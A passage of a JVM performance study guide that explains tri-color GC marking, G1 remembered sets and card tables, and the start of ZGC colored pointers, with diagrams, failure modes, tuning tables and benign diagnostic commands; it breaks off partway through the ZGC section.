## Keywords

1. [JVM-076 GC Algorithm Internals - Tri-Color Marking](#jvm-076-gc-algorithm-internals---tri-color-marking)
2. [JVM-077 G1GC Remembered Sets and Card Tables](#jvm-077-g1gc-remembered-sets-and-card-tables)
3. [JVM-078 ZGC Colored Pointers and Load Barriers](#jvm-078-zgc-colored-pointers-and-load-barriers)
4. [JVM-079 JIT Code Cache and Deoptimization](#jvm-079-jit-code-cache-and-deoptimization)
5. [JVM-080 Safepoint Bias and Time-To-Safepoint Latency](#jvm-080-safepoint-bias-and-time-to-safepoint-latency)
6. [JVM-081 NUMA-Aware GC and Memory Allocation](#jvm-081-numa-aware-gc-and-memory-allocation)
7. [JVM-082 Biased Locking Removed JDK 15 and Thin Locks](#jvm-082-biased-locking-removed-jdk-15-and-thin-locks)
8. [JVM-083 JVM Crash Analysis (hs_err_pid Files)](#jvm-083-jvm-crash-analysis-hserrpid-files)
9. [JVM-084 Native Memory Leaks (JNI, Unsafe, Direct BB)](#jvm-084-native-memory-leaks-jni-unsafe-direct-bb)
10. [JVM-085 GC Ergonomics Failures at Scale](#jvm-085-gc-ergonomics-failures-at-scale)
11. [JVM-086 Log4Shell and JVM Attack Surface (2021)](#jvm-086-log4shell-and-jvm-attack-surface-2021)
12. [JVM-087 JVM Production Incident Simulation](#jvm-087-jvm-production-incident-simulation)
13. [JVM-088 JFR Custom Events and Continuous Profiling](#jvm-088-jfr-custom-events-and-continuous-profiling)
14. [JVM-089 Unified JVM Logging (-Xlog)](#jvm-089-unified-jvm-logging--xlog)
15. [JVM-090 Ahead-of-Time Compilation (GraalVM Native)](#jvm-090-ahead-of-time-compilation-graalvm-native)
16. [JVM-091 Project Loom and Virtual Thread Scheduling](#jvm-091-project-loom-and-virtual-thread-scheduling)
17. [JVM-092 JVM Compliance - FIPS, FedRAMP Considerations](#jvm-092-jvm-compliance---fips-fedramp-considerations)
18. [JVM-093 The Billion-Dollar Safepoint Bug Pattern](#jvm-093-the-billion-dollar-safepoint-bug-pattern)
19. [JVM-094 Heap Fragmentation Under Long-Running Loads](#jvm-094-heap-fragmentation-under-long-running-loads)
20. [JVM-095 JVM Fleet Observability - Key Metrics](#jvm-095-jvm-fleet-observability---key-metrics)
21. [JVM-096 Premature GC Tuning Anti-Pattern](#jvm-096-premature-gc-tuning-anti-pattern)
22. [JVM-097 Teaching JIT - The 5 Questions Juniors Ask](#jvm-097-teaching-jit---the-5-questions-juniors-ask)
23. [JVM-098 Build a JVM Dashboard - Phase 3 (Diagnosis)](#jvm-098-build-a-jvm-dashboard---phase-3-diagnosis)
24. [JVM-099 JVM Deep-Dive Interview Questions](#jvm-099-jvm-deep-dive-interview-questions)
25. [JVM-100 JVM Mastery Verification](#jvm-100-jvm-mastery-verification)
26. [JVM-101 Diagnosing Metaspace OOM in Production](#jvm-101-diagnosing-metaspace-oom-in-production)

---

---

# JVM-076 GC Algorithm Internals - Tri-Color Marking

**TL;DR** - Tri-color marking partitions objects into white (unvisited), gray (visited, children unscanned), and black (fully scanned) to enable concurrent garbage collection without stopping the world.

---

### 🔥 Problem Statement

Concurrent garbage collection must trace object reachability while application threads mutate the object graph simultaneously. Without a formal protocol, the collector can miss live objects (correctness bug - collecting reachable objects) or fail to collect dead objects (liveness bug - memory leak). At scale with millions of objects and hundreds of mutator threads, any race between marking and mutation leads to silent data corruption or premature collection. The tri-color abstraction provides the formal foundation that every concurrent collector (G1, ZGC, Shenandoah) uses to guarantee correctness despite concurrency.

---

### 📜 Historical Context

Edsger Dijkstra, Leslie Lamport, and others formalized tri-color marking in 1978 ("On-the-Fly Garbage Collection: An Exercise in Cooperation"). Before this, collectors either stopped the world entirely (simple but unacceptable for interactive systems) or used ad-hoc concurrent approaches that had correctness bugs. The tri-color invariant provided the first formal proof that concurrent collection could be correct. Every modern concurrent GC (G1's SATB marking, ZGC's colored pointers, Shenandoah's Brooks pointers) is a different engineering realization of this same 1978 theoretical framework.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Strong tri-color invariant:** No black object may point directly to a white object. If this holds, no live object can be missed.
2. **Gray wavefront progress:** The gray set monotonically shrinks toward empty. When gray is empty, all reachable objects are black, all white are garbage.
3. **Snapshot consistency:** Either SATB (snapshot-at-the-beginning) or incremental update barriers maintain invariant 1 despite concurrent mutation.

**DERIVED DESIGN:**

The invariants force every concurrent collector to intercept pointer stores (write barriers) or pointer loads (read/load barriers). SATB barriers capture the "before" value of overwritten pointers, ensuring objects reachable at marking start are found. Incremental update barriers capture "after" values, ensuring newly connected objects are rescanned. The choice between SATB and incremental update is the fundamental design fork between G1/Shenandoah (SATB) and CMS (incremental update).

**THE TRADE-OFF:**

**Gain:** Concurrent marking without STW pause. Application threads run during the majority of GC work.

**Cost:** Write/load barrier overhead on every pointer mutation (2-5% throughput tax). Floating garbage (objects dying during marking are collected next cycle, not this one).

---

### 🧠 Mental Model

> Tri-color marking is like a fire inspector checking a building floor by floor. White rooms are unchecked. When the inspector enters a room, it turns gray (entered but doors not all opened). After checking every door in that room, it turns black (fully inspected). The fire (GC) can only consume white rooms - never gray or black. Doorways being moved while the inspector works (pointer mutation) require a barrier protocol to prevent rooms from being accidentally demolished.

- "White rooms" -> unvisited objects (potentially garbage)
- "Gray rooms" -> objects on the mark stack (reachable, children pending)
- "Black rooms" -> fully scanned objects (definitely live)
- "Moving doorways" -> pointer mutations by application threads
- "Barrier protocol" -> write barriers intercepting mutations

**Where this analogy breaks down:** real inspectors work sequentially. GC marking is concurrent with "tenants" (mutator threads) actively building and destroying doorways. The barrier is not a physical gate but a CPU instruction inserted at every pointer store, which has no real-world analog.

---

### 🧩 Components

- **Mark stack/queue:** holds gray objects awaiting scanning. Bounded size with overflow handling.
- **Bitmap (or color bits):** tracks color per object. G1 uses separate marking bitmap. ZGC embeds color in pointer metadata bits.
- **Write barrier (SATB):** pre-store barrier that logs the overwritten reference before mutation. Ensures "before" state is preserved.
- **Load barrier (ZGC):** checks pointer color on every load. Self-heals stale pointers. Eliminates write barrier entirely.
- **Concurrent marking threads:** background threads that drain the gray set. Typically 25% of available CPUs.
- **Remark pause:** short STW pause to drain final gray objects and process SATB buffers. Usually <5ms in G1.

```text
Tri-color state machine:
  WHITE --> GRAY --> BLACK
  (unvisited) (queued) (done)

  Mark start: all objects WHITE
  Root scan:  GC roots -> GRAY
  Concurrent: drain GRAY -> scan refs -> BLACK
  Remark:     drain residual GRAY (STW)
  Sweep:      all remaining WHITE = garbage
```


```mermaid
stateDiagram-v2
    [*] --> White: object allocated
    White --> Gray: discovered by marker
    Gray --> Black: all children scanned
    Black --> [*]: live (survives GC)
    White --> [*]: garbage (collected)
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** Tri-color marking is a protocol that assigns one of three colors (white, gray, black) to every heap object during GC. It allows the collector to know which objects have been fully traced, which are partially traced, and which have not been seen at all.

**Level 2 - How to use it:** You do not directly use tri-color marking - it is internal to the GC. However, understanding it explains why GC logs show "concurrent mark" phases, why remark pauses exist, and why `-XX:ConcGCThreads` affects marking throughput. When you see long concurrent mark phases, adding marking threads helps.

**Level 3 - How it works:** Marking starts by coloring GC roots gray. Concurrent threads pop gray objects, scan their reference fields, color discovered white objects gray, and color the scanned object black. Write barriers intercept mutations: SATB logs the old reference value so the collector can find objects that were reachable at mark-start. When the gray set empties, a brief STW remark drains SATB buffers and finalizes the bitmap.

**Level 4 - Production mastery:** At production scale, marking throughput is bounded by memory bandwidth (scanning requires reading every reference field). Large heaps (32GB+) with complex object graphs can have concurrent mark phases lasting 10-30 seconds. During this time, new allocations are either pre-colored black (wasted scanning next cycle) or handled by TAMS (Top At Mark Start) pointers in G1. Tuning `-XX:ConcGCThreads` trades application CPU for shorter mark phases. ZGC eliminates marking bandwidth issues by embedding color in pointers, avoiding the separate bitmap scan entirely.

---

### ⚙️ How It Works

**Phase 1 - Initial Mark (STW, <1ms):** Scan GC roots (thread stacks, static fields). Color directly referenced objects gray. Mark TAMS pointers.

**Phase 2 - Concurrent Mark:** Background threads drain gray set. For each gray object: scan all reference fields, color white children gray, color self black. SATB barriers log overwrites concurrently.

**Phase 3 - Remark (STW, <5ms):** Process remaining SATB buffers. Drain residual gray objects. After remark, the marking is complete.

**Phase 4 - Cleanup/Sweep:** White objects are garbage. G1 identifies regions with most white (garbage-first selection). ZGC relocates live objects from mostly-dead pages.

```text
Timeline:
  |--STW--|---Concurrent Mark---|--STW--|
  InitMark  (app threads running)  Remark

  Mutator:  A.ref = B  (write barrier fires)
  Barrier:  log(old_value) to SATB buffer
  Marker:   processes SATB -> grays old ref
```


```mermaid
sequenceDiagram
    participant App as Mutator Thread
    participant GC as GC Marker
    participant Buf as SATB Buffer
    App->>App: A.field = newRef
    App->>Buf: log(oldRef) via write barrier
    GC->>Buf: drain buffer
    GC->>GC: color oldRef gray if white
    GC->>GC: scan oldRef children
    GC->>GC: color oldRef black
```

---

### 🚨 Failure Modes

**Failure 1 - Lost Object (Tri-Color Violation):**

**Symptom:** SIGSEGV or corrupted data after GC. Extremely rare in production JVMs (indicates JVM bug).

**Root cause:** A black object receives a pointer to a white object without barrier interception. The white object is collected despite being reachable.

**Diagnostic:**

```bash
# Check for known JVM bugs with marking
java -XX:+VerifyAfterGC -XX:+VerifyBeforeGC \
  -jar app.jar  # Development only - huge overhead
```

**Fix:** Upgrade JVM. Report to OpenJDK bug tracker. This is a collector correctness bug, not an application issue.

**Failure 2 - Marking Starvation (Long Concurrent Mark):**

**Symptom:** Concurrent mark phase takes 30+ seconds. Triggers "to-space exhausted" because allocation outpaces collection.

**Root cause:** Too few concurrent GC threads relative to allocation rate and heap size. Mutators allocate faster than markers can trace.

**Diagnostic:**

```bash
# Check concurrent mark duration from GC log
grep "Concurrent Mark" gc.log | \
  awk '{print $NF}' | sort -n | tail -5
# If >10s consistently, increase marking threads
```

**Fix:** Increase `-XX:ConcGCThreads` (default: ~25% of CPUs). Or reduce allocation rate in application code. For extremely large heaps, consider ZGC (concurrent marking is more efficient due to load barriers).

**Failure 3 - SATB Buffer Overflow:**

**Symptom:** Unexpectedly long remark pauses (50-200ms instead of <5ms). GC log shows large SATB buffer processing.

**Root cause:** High mutation rate during concurrent mark generates excessive SATB entries. Remark must drain all of them STW.

**Diagnostic:**

```bash
# Check remark pause breakdown
grep -A5 "Remark" gc.log | grep "SATB"
# Look for SATB Filtering/Processing time
```

**Fix:** Increase `-XX:G1SATBBufferSize` or add refinement threads. In extreme cases, schedule GC during low-mutation windows.

---

### 🔬 Production Reality

A typical pattern in large multi-tenant Java services: during peak traffic, allocation rate spikes 3x. Concurrent marking cannot keep pace. The gray set grows faster than markers drain it. Eventually G1 triggers a "Full GC (Allocation Failure)" because marking did not complete before regions were exhausted. The fix is not a bigger heap - it is more concurrent marking threads (`-XX:ConcGCThreads=4` to `8` on a 16-core machine) so marking completes before allocation consumes available regions. The key metric is "concurrent mark duration" relative to "time between GCs."

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | G1 (SATB barrier) | ZGC (load barrier)  | Shenandoah (SATB+LB)  |
| -------------- | ----------------- | ------------------- | --------------------- |
| Barrier type   | Write (pre-store) | Read (every load)   | Write + read          |
| Barrier cost   | 2-5% throughput   | 3-8% throughput     | 5-10% throughput      |
| Remark pause   | 1-10ms            | <1ms                | <1ms                  |
| Floating trash | One cycle delay   | One cycle delay     | One cycle delay       |
| Max heap       | Practical ~32GB   | Multi-TB            | Multi-TB              |
| Mark bitmap    | Separate bitmap   | In-pointer metadata | Separate + forwarding |

---

### ⚡ Decision Snap

**USE G1 (SATB) WHEN:**

- Heap <= 32GB, pause target 50-200ms acceptable.
- Throughput matters (lowest barrier overhead).

**USE ZGC (Load Barriers) WHEN:**

- Need sub-millisecond pauses regardless of heap size.
- Can accept 3-8% throughput overhead.

**AVOID MANUAL TRI-COLOR TUNING WHEN:**

- Tuning at wrong level. Reduce allocation rate first.

---

### ⚠️ Top Traps

| #   | Misconception                   | Reality                                                                                             |
| --- | ------------------------------- | --------------------------------------------------------------------------------------------------- |
| 1   | "Concurrent means no pauses"    | Init-mark and remark are still STW. Concurrent mark runs between them. Total pause = init + remark. |
| 2   | "More GC threads = faster"      | Concurrent threads compete with app for CPU. Over-provisioning slows both marking AND application.  |
| 3   | "Black objects never revisited" | SATB can re-gray previously black objects (reference processing). This is correct behavior.         |
| 4   | "Tri-color is G1-specific"      | Every concurrent collector uses tri-color. ZGC, Shenandoah, CMS all implement it differently.       |
| 5   | "Write barriers are expensive"  | 2-5% overhead. Cheaper than STW pauses they eliminate. Trade-off is overwhelmingly favorable.       |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-029 GC Roots and Reachability Analysis - understand what "reachable" means before learning how concurrent marking preserves it
- JVM-027 Minor GC vs Major GC vs Full GC - understand where concurrent marking fits in the GC lifecycle

**THIS:** JVM-076 GC Algorithm Internals - Tri-Color Marking

**Next steps:**

- JVM-077 G1GC Remembered Sets and Card Tables - G1's SATB barrier is a tri-color implementation detail
- JVM-078 ZGC Colored Pointers and Load Barriers - ZGC's alternative tri-color realization using load barriers

---

**The Surprising Truth:**

The tri-color invariant permits "floating garbage" - objects that die DURING concurrent marking survive until the NEXT cycle because they were already colored gray or black. This means every concurrent collector has inherently higher memory usage than a STW collector: you need enough headroom for one cycle's worth of floating garbage. This is why G1 triggers at 45% heap occupancy (IHOP) rather than waiting until full.

**Further Reading:**

- Dijkstra et al., "On-the-Fly Garbage Collection: An Exercise in Cooperation" (1978) - original tri-color formalization
- JEP 333: ZGC: A Scalable Low-Latency Garbage Collector - modern load-barrier realization
- Tene, Iyengar, Wolf, "C4: The Continuously Concurrent Compacting Collector" (ISMM 2011)

**Revision Card:**

1. Three colors: white (unseen), gray (queued), black (done). Strong invariant: no black->white pointer.
2. SATB vs load barrier is the fundamental design fork. SATB = lower overhead, short remark. Load barrier = no remark, higher per-access cost.
3. Floating garbage forces IHOP < 100%. Concurrent collectors need headroom for objects dying during mark.

**BAD:**

```java
// Assuming concurrent GC means no pauses
// No monitoring of concurrent mark duration
java -Xmx32g -XX:+UseG1GC -jar service.jar
// Concurrent mark takes 25s, allocation outpaces
// Result: Full GC (Allocation Failure) 4.2s pause
```

**GOOD:**

```java
// Monitor marking throughput, tune concurrency
java -Xmx32g -XX:+UseG1GC \
  -XX:ConcGCThreads=6 \
  -Xlog:gc*:file=gc.log:time,level,tags \
  -jar service.jar
// ConcGCThreads=6 (25% of 24 cores)
// Concurrent mark completes in <5s
// No allocation failure possible
```

---

---

# JVM-077 G1GC Remembered Sets and Card Tables

**TL;DR** - G1 uses remembered sets per region and a global card table to track cross-region references, enabling independent region collection without full-heap scanning.

---

### 🔥 Problem Statement

G1 divides the heap into hundreds of equal-sized regions and collects subsets independently. To collect region A, G1 must know every reference pointing INTO A from outside regions - otherwise it would incorrectly collect objects that are actually reachable via cross-region pointers. Scanning the entire heap to find these references would defeat the purpose of region-based collection. At scale with 2048+ regions and millions of cross-region references, the data structure tracking these references must be space-efficient and fast to maintain.

---

### 📜 Historical Context

Card tables originated in the Ungar generation scavenging collector (1984) for tracking old-to-young references. G1 (Garbage-First, 2004 paper by Detlefs et al., productionized in JDK 7u4) extended this concept: instead of two generations, G1 has hundreds of regions each needing its own "incoming reference" tracker. The combination of coarse-grained card table (marking dirty 512-byte cards) with fine-grained per-region remembered sets (recording exactly which cards contain cross-region refs) was G1's key innovation.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Completeness:** The remembered set for region R contains every card from which a reference into R exists. Missing entries cause incorrect collection.
2. **Write barrier maintenance:** Every pointer store creating a cross-region reference must dirty the corresponding card and enqueue for refinement.
3. **Bounded overhead:** Remembered set memory is bounded by coarsening (per-card to per-region granularity) when incoming references exceed threshold.

**DERIVED DESIGN:**

These invariants force a post-write barrier on every reference store, a concurrent refinement mechanism to process dirty cards into remembered sets, and a coarsening protocol to prevent memory explosion when popular objects receive references from many regions.

**THE TRADE-OFF:**

**Gain:** Independent region collection. Mixed GCs collect only highest-garbage regions without scanning entire old gen.

**Cost:** 10-20% of heap consumed by RSet data structures in native memory. Write barrier overhead ~3-5% throughput. Refinement threads consume CPU.

---

### 🧠 Mental Model

> The card table is a city's postal system. The heap is divided into neighborhoods (regions). When someone in neighborhood X sends a letter to Y (cross-region reference), the post office (write barrier) stamps X's mailbox (dirties the card). The remembered set for Y is its incoming mail registry - listing every neighborhood that has sent mail. When collecting Y, check only registered neighborhoods, not the entire city.

- "Neighborhoods" -> G1 regions (1-32MB each)
- "Sending a letter" -> creating a cross-region reference
- "Postal stamp" -> dirtying the card in the card table
- "Incoming mail registry" -> remembered set for target region
- "Collecting Y" -> evacuating live objects from region Y

**Where this analogy breaks down:** real mail is delivered once. JVM references are modified constantly. The registry must track CURRENT state, not history. When a reference is removed, the RSet still contains the stale card until next refinement - it over-approximates.

---

### 🧩 Components

- **Card table:** Global byte array. One byte per 512-byte heap range. Clean (0) or dirty (non-zero).
- **Remembered set (RSet):** Per-region structure listing external cards containing references into this region. Three granularities: sparse, fine, coarse.
- **Post-write barrier:** After reference store, checks src.region != dst.region. If cross-region, dirties card and enqueues.
- **Dirty card queue (DCQ):** Thread-local buffer of dirtied cards. When full, flushed to global refinement queue.
- **Concurrent refinement threads:** Process dirty cards into RSets concurrently with application.
- **Collection Set (CSet):** Regions selected for evacuation. RSets determine additional root scanning.

```text
Card Table (1 byte per 512B):
  [0][0][1][0][1][0][0][1][0]...
         ^     ^        ^
         dirty cards (cross-region refs)

Region B RSet:
  Region A: cards {3, 12, 47}
  Region D: cards {8, 9}
  Region F: coarsened (bit only)
```


```mermaid
flowchart TD
    A[Reference Store: A.f = B] --> C{Same region?}
    C -->|Yes| D[No action needed]
    C -->|No| E[Dirty card in card table]
    E --> F[Enqueue to dirty card queue]
    F --> G[Refinement thread processes]
    G --> H[Add card to target RSet]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** G1 needs to know which objects in other regions point into each region. Card table and remembered sets track cross-region references efficiently, avoiding full-heap scans during partial collections.

**Level 2 - How to use it:** You do not manipulate RSets directly. Key tuning: `-XX:G1ConcRefinementThreads`. Monitor via GC logs: "Scan RS" time shows RSet scanning cost. High RSet memory visible in NMT under "GC" category.

**Level 3 - How it works:** Every pointer store triggers a post-write barrier checking cross-region. If yes, dirty the source card and buffer it. Refinement threads scan each 512B card to find exact references, adding to target region's RSet. During evacuation, RSets serve as additional roots for the collection set.

**Level 4 - Production mastery:** RSet memory scales with cross-region reference density. Object graphs with many inter-region pointers (large HashMaps, graph databases) generate enormous RSets - potentially 20-30% of heap in native memory. Monitor with NMT. Coarsening saves memory but increases scan time. High "Update RS" in GC logs indicates refinement cannot keep pace with mutation rate.

---

### ⚙️ How It Works

**Phase 1 - Write Barrier (every pointer store):**

Application stores reference. JIT-compiled barrier checks card dirty status and region membership. If cross-region and card clean: dirty card, enqueue to thread-local DCQ.

**Phase 2 - Concurrent Refinement:**

Refinement threads dequeue dirty cards. For each card: scan 512-byte range, find references into other regions, update target RSets. If refinement falls behind, application threads help.

**Phase 3 - Evacuation (during GC pause):**

For each CSet region: scan its RSet to find incoming references from outside CSet. These become additional GC roots. Evacuate live objects. Update forwarding pointers.

```text
During Young GC pause:
  1. Scan thread stacks (GC roots)
  2. Scan RSets of CSet regions
  3. Trace from all roots -> identify live
  4. Evacuate live to survivor/old
  5. Update references (fixup pointers)

  Typical time breakdown:
    Scan RS:     30-40% of pause
    Object Copy: 40-50% of pause
    Other:       10-20%
```


```mermaid
sequenceDiagram
    participant App as App Thread
    participant CT as Card Table
    participant Ref as Refinement Thread
    participant RS as Region RSet
    App->>CT: dirty card (post-write barrier)
    App->>App: continue execution
    Ref->>CT: read dirty card
    Ref->>Ref: scan 512B for cross-region refs
    Ref->>RS: add card to target RSet
    Ref->>CT: clean card
```

---

### 🚨 Failure Modes

**Failure 1 - Remembered Set Memory Explosion:**

**Symptom:** NMT "GC" category grows to 20-30% of heap. RSS exceeds container limits. OOM kill.

**Root cause:** Dense cross-region reference graphs. Large HashMaps with keys/values scattered across regions.

**Diagnostic:**

```bash
jcmd <pid> VM.native_memory summary | grep GC
# GC (reserved=2048MB, committed=1800MB)
# If committed > 15% of Xmx, RSets are large
```

**Fix:** Increase heap to reduce region count. Consider ZGC (no remembered sets). Restructure data for locality.

**Failure 2 - Refinement Thread Starvation:**

**Symptom:** "Update RS" dominates GC pause time. Dirty card queue overflows. Application threads pressed into refinement.

**Root cause:** Mutation rate exceeds refinement throughput. Bulk loading, graph traversals, cache storms.

**Diagnostic:**

```bash
grep "Update RS" gc.log | \
  awk '{print $NF}' | sort -n | tail -5
# Consistently >10ms indicates refinement lag
```

**Fix:** Increase `-XX:G1ConcRefinementThreads`. Reduce mutation rate. Consider batch-then-GC pattern.

---

### 🔬 Production Reality

A typical incident: 16GB heap G1 service with ConcurrentHashMap of 5M entries. Keys and values land in random regions. NMT shows 2.8GB native memory for GC (17.5% of heap). Container limit 20GB. Actual RSS reaches 21GB causing OOM kill. Fix options: increase container to 24GB, restructure cache for locality (difficult), or switch to ZGC (eliminates RSets entirely at throughput cost).

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | G1 (RSet + cards)    | ZGC (load barrier)  | Parallel (cards only) |
| --------------- | -------------------- | ------------------- | --------------------- |
| Cross-ref track | Per-region RSets     | None needed         | Single card table     |
| Memory overhead | 10-20% native        | <5% native          | <1%                   |
| Barrier cost    | Post-write (cheap)   | Load (every access) | Post-write (cheaper)  |
| Partial collect | Yes (region subsets) | Yes (page-based)    | No (full gen only)    |
| Tuning knobs    | Many                 | Few (auto)          | Few                   |

---

### ⚡ Decision Snap

**ACCEPT G1 RSET OVERHEAD WHEN:**

- Pause targets (50-200ms) justify the memory cost.
- Heap <= 32GB where overhead is manageable.
- Object graph has reasonable locality.

**SWITCH TO ZGC WHEN:**

- RSet memory exceeds 15% of heap.
- Sub-ms pauses required regardless of heap size.

**PREFER PARALLEL GC WHEN:**

- Pure throughput workload. Simple card table sufficient.

---

### ⚠️ Top Traps

| #   | Misconception                        | Reality                                                                                                          |
| --- | ------------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
| 1   | "RSets are free (JVM-internal)"      | RSets consume native memory proportional to cross-region density. Can reach 20% of heap size.                    |
| 2   | "Bigger heap always helps G1"        | More regions = potentially more cross-region refs = bigger RSets. Net benefit depends on locality.               |
| 3   | "Card table alone suffices for G1"   | Card table marks dirty cards. RSets provide per-region indexed access. Without RSets, must scan ALL dirty cards. |
| 4   | "Coarsening means data loss"         | Coarsening is accuracy trade-off: fewer cards, coarser granularity. Correctness maintained.                      |
| 5   | "Max refinement threads = CPU count" | Over-provisioning steals CPU from app AND marking. Default auto-scaling usually correct.                         |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-076 GC Algorithm Internals - Tri-Color Marking - RSets support concurrent marking by tracking what to scan
- JVM-026 Heap Structure - Young, Old, and Metaspace - understand regions that RSets connect

**THIS:** JVM-077 G1GC Remembered Sets and Card Tables

**Next steps:**

- JVM-078 ZGC Colored Pointers and Load Barriers - ZGC's alternative eliminating RSets entirely
- JVM-085 GC Ergonomics Failures at Scale - RSets as common root cause of ergonomics failures

---

**The Surprising Truth:**

G1's post-write barrier has a "conditional card marking" optimization: it only dirties a card if currently clean. This prevents redundant refinement but introduces a read-modify-write on the card table entry. On x86 this causes cache-line bouncing between cores when multiple threads write to adjacent heap regions. `-XX:-UseCondCardMark` disables this, accepting redundant dirty cards to avoid false sharing. Whether conditional marking helps depends on allocation pattern and core count.

**Further Reading:**

- Detlefs et al., "Garbage-First Garbage Collection" (ISMM 2004) - original G1 paper
- OpenJDK source: `g1RemSet.cpp` - RSet refinement implementation
- JEP 307: Parallel Full GC for G1 - addresses full GC fallback when RSets cannot prevent evacuation failure

**Revision Card:**

1. Card table: 1 byte per 512B heap. RSets: per-region index of which external cards reference in.
2. RSet memory = 10-20% of heap (native). Monitor with NMT. If >15%, consider ZGC or locality optimization.
3. "Scan RS" in GC log shows RSet scanning cost. High values = dense cross-region graph or refinement starvation.

**BAD:**

```java
// Ignoring RSet memory in container sizing
// Container: 20GB, Heap: 16GB
// Assumes 4GB overhead is enough
-Xmx16g  // in a 20GB container
// Actual RSS: 16GB heap + 2.8GB RSets + 1.5GB other
// = 20.3GB -> OOM killed
```

**GOOD:**

```java
// Account for RSet memory in sizing
// Formula: container = heap * 1.7 (G1 with dense refs)
jcmd <pid> VM.native_memory summary | grep GC
// GC: reserved=2800MB <- RSets + marking
// Container: heap(16g) + GC(3g) + other(2g) = 21g
// Set container limit: 24GB (with headroom)
```

---

---

# JVM-078 ZGC Colored Pointers and Load Barriers

**TL;DR** - ZGC embeds GC metadata in unused pointer bits (colored pointers) and intercepts every pointer load (load barriers) to achieve sub-millisecond pauses regardless of heap size.

---

### 🔥 Problem Statement

G1 achieves low-pause collection but its pauses still scale with live set size during evacuation and remark. For heaps exceeding 32GB, G1 pauses routinely exceed 100ms - unacceptable for latency-sensitive services with strict SLAs. The fundamental limitation: G1 must stop the world to relocate objects and fix all references atomically. ZGC eliminates this constraint by making relocation concurrent through colored pointers and load barriers, achieving <1ms pauses on multi-terabyte heaps at the cost of per-access barrier overhead.

---

### 📜 Historical Context

ZGC originated as an Oracle research project (first previewed JDK 11, production-ready JDK 15, generational ZGC in JDK 21). Its design draws from Azul's C4 collector (2010) which pioneered read barriers for concurrent compaction. The key insight: if every pointer load goes through a barrier that can fix stale references on-the-fly, the GC never needs to stop the world to update pointers. ZGC made this practical on commodity hardware by using virtual memory multi-mapping and unused pointer bits available in 64-bit address spaces.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Self-healing pointers:** Every loaded pointer is validated by the load barrier. Stale pointers are fixed in-place before use - the application never sees an invalid reference.
2. **Colored metadata:** Pointer bits encode GC state (marked, remapped, finalizable). No separate marking bitmap needed.
3. **Concurrent relocation:** Objects can be moved while application runs. Load barrier detects forwarded objects and updates the reference transparently.

**DERIVED DESIGN:**

These invariants force a load barrier on every object reference access (not just stores). The barrier checks pointer color bits - if they indicate "not remapped," the barrier follows the forwarding pointer, updates the reference in-place, and returns the new address. This self-healing property means the GC can relocate objects without STW, and stale references are lazily fixed on first access.

**THE TRADE-OFF:**

**Gain:** Pauses <1ms regardless of heap size (1MB to 16TB). No remembered sets needed. Concurrent compaction.

**Cost:** Load barrier on every reference access (3-8% throughput). Higher CPU usage during relocation. Single-generation (pre-JDK 21) means no generational optimization.

---

### 🧠 Mental Model

> ZGC's colored pointers are like color-coded forwarding addresses on mail. Each letter (pointer) has a colored sticker: green (current address), yellow (moved - forwarding available), red (being processed). The mailman (load barrier) checks the sticker on every delivery. If yellow, he follows the forwarding address, delivers there, and updates his address book (self-healing). No need to stop all mail delivery to update addresses.

- "Colored sticker" -> metadata bits in pointer (4 bits)
- "Green" -> remapped (pointer is current)
- "Yellow" -> marked but not remapped (object moved)
- "Mailman checks sticker" -> load barrier on every access
- "Updates address book" -> self-healing (fixes pointer in-place)

**Where this analogy breaks down:** real mail delivery does not happen billions of times per second. The load barrier executes on EVERY object reference load - a cost invisible in the mail analogy. Also, "color" in ZGC changes meaning across GC phases, not just between deliveries.

---

### 🧩 Components

- **Colored pointers:** 64-bit references use bits 42-45 for GC metadata (marked0, marked1, remapped, finalizable). Remaining bits encode the actual heap address.
- **Load barrier:** JIT-compiled check on every reference load. Tests color bits against expected phase color. If mismatch: slow path (remap/mark).
- **Multi-mapping:** ZGC maps the same physical memory at three virtual addresses (one per color state). Allows address arithmetic without masking.
- **Forwarding tables:** Per-page structures recording object relocation (old offset -> new address).
- **Relocation set:** Pages selected for compaction (pages with most garbage, similar to G1's collection set).
- **ZPages:** ZGC's allocation unit (small=2MB, medium=32MB, large=N\*2MB). Replace G1 regions.

```text
64-bit pointer layout (ZGC):
  [unused][color bits][address]
  63...46  45..42     41...0

  Color bits:
    Marked0     = relocation phase 0
    Marked1     = relocation phase 1
    Remapped    = pointer is current
    Finalizable = reachable only via finalizer

  Multi-mapping:
    Virtual addr 1 (Marked0)  -> Physical page
    Virtual addr 2 (Marked1)  -> Physical page
    Virtual addr 3 (Remapped) -> Physical page
```


```mermaid
flowchart TD
    A[Load reference] --> B{Color == expected?}
    B -->|Yes| C[Return pointer - fast path]
    B -->|No| D[Slow path: check forwarding]
    D --> E{Object relocated?}
    E -->|Yes| F[Follow forwarding pointer]
    E -->|No| G[Mark object, remap color]
    F --> H[Update reference in-place]
    G --> H
    H --> C
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** ZGC is a garbage collector that achieves pauses under 1 millisecond regardless of heap size. It does this by checking every pointer access and fixing stale references on-the-fly, so it never needs to stop your application to update pointers.

**Level 2 - How to use it:** Enable with `-XX:+UseZGC` (JDK 15+). For generational mode: `-XX:+UseZGC -XX:+ZGenerational` (JDK 21+). Minimal tuning needed - primarily `-Xmx` for heap size. ZGC auto-tunes most parameters.

**Level 3 - How it works:** ZGC stores GC state in pointer metadata bits. Every time your code loads a reference, a JIT-compiled barrier checks if the pointer's color matches the current GC phase. If not, the barrier follows forwarding tables to find the object's new location and updates the pointer in-place (self-healing). This makes object relocation concurrent - no STW needed for pointer fixup.

**Level 4 - Production mastery:** ZGC's throughput cost is 3-8% from load barriers (every `getfield`/`aaload` has a branch). This is most impactful in pointer-chasing workloads (linked lists, tree traversals). For array-heavy or primitive-heavy workloads, overhead is minimal. Generational ZGC (JDK 21+) adds young/old generation semantics, reducing the amount of work per cycle and improving throughput significantly. Monitor `ZAllocationStall` in GC logs - this indicates ZGC cannot allocate fast enough (equivalent to G1's evacuation failure).

---

### ⚙️ How It Works

**Phase 1 - Concurrent Mark:** Trace reachability using colored pointers. Load barriers mark objects accessed by application. Marking threads scan gray objects concurrently.

